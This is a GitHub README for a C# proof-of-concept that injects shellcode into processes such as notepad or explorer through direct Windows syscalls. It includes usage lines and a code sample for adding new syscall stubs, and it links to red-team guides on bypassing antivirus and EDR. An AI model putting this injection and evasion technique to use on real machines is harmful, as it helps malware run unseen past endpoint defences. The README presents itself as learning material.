 # directInjectorPOC

Small program written in C#, compatible with .NET >= v3.5 . Only x64. Works from ws 2008 up to the latest windows 10 update. 

Created as a way to learn more about direct syscalls and their implementation in C#. 

The program uses direct syscalls to perform the shellcode allocating/injection and the remote thread creation. The only imports are GetSystemInfo, RtlGetVersion and VirtualProtectEx.

The shellcode can be easily generated using tools like donut (https://github.com/TheWover/donut/)

### Usage: 

By default the program injects into "notepad" using the ALLOCWRITE write method. This can be easily modified by changing line 18 
```
Inject("notepad", osV, ALLOCWRITE);
```
can be changed to 
```
Inject("explorer", osV, OPENSEC);
```
to inject the shellcode into explorer.exe using the NtMapViewOfSection method. 

#### Dev:

Take a look at syscalls.cs. To create a new syscall:
- Add the syscall ID to each windows version inside the sysDic dictionary.  
- Create its function delegate inside the Delegates struct
- Create a function thar runs GetDelegateForFunctionPointer and invokes the delegate functions (you can just copy paste any of the current ones and change them a little bit to adjust your needs) 
- If needed, create the required structs inside nativeStructs.cs

For example, if we would like to implement NtClose we can do the following:
```
...
            { "win10-1507", new Dictionary<string, byte>()
                {
                    { "openprocess",0x26},
                    { "allocatevirtualmem", 0x18},
                    { "writevirtualmem", 0x3A},
                    { "createremthread", 0xB3},
                    { "createsection", 0x4A },
                    { "mapviewofsec", 0x28 },
                    { "close", 0x0F }
                }
            },
...
```
```
public struct Delegates{
...
            [SuppressUnmanagedCodeSecurity]
            [UnmanagedFunctionPointer(CallingConvention.Cdecl)]
            public delegate int NtClose(IntPtr handler);
...
```
```
        public static NTSTATUS NtClose(IntPtr handle, string os)
        {
            byte[] syscall = syscallSkeleton;
            syscall[4] = sysDic[os]["close"];

            unsafe
            {
                fixed (byte* ptr = syscall)
                {

                    IntPtr memoryAddress = (IntPtr)ptr;

                    if (!VirtualProtectEx(Process.GetCurrentProcess().Handle, memoryAddress,
                        (UIntPtr)syscall.Length, 0x40, out uint oldprotect))
                    {
                        throw new Win32Exception();
                    }

                    Delegates.NtClose myAssemblyFunction = (Delegates.NtClose)Marshal.GetDelegateForFunctionPointer(memoryAddress, typeof(Delegates.NtClose));

                    return (NTSTATUS)myAssemblyFunction(handle);
                }
            }
        }
```

##### ToDo:

  - Implement more ways to write our shellcode in a remote process (process hollowing, dll hollowing, etc)
  - New execution methods (steal them from pinjectra :) )
  - Try to avoid the use of VirtualProtectEx when allocating our shellcode
  - Try catch everything just in case

  
##### Links of interest:

  - https://ired.team/offensive-security/code-injection-process-injection/ntcreatesection-+-ntmapviewofsection-code-injection
  - https://ired.team/offensive-security/code-injection-process-injection/process-injection
  - https://github.com/TheWover/donut/
  - https://github.com/b4rtik/SharpMiniDump/
  - https://github.com/outflanknl/Dumpert (tool)  https://outflank.nl/blog/2019/06/19/red-team-tactics-combining-direct-system-calls-and-srdi-to-bypass-av-edr/ (blog)


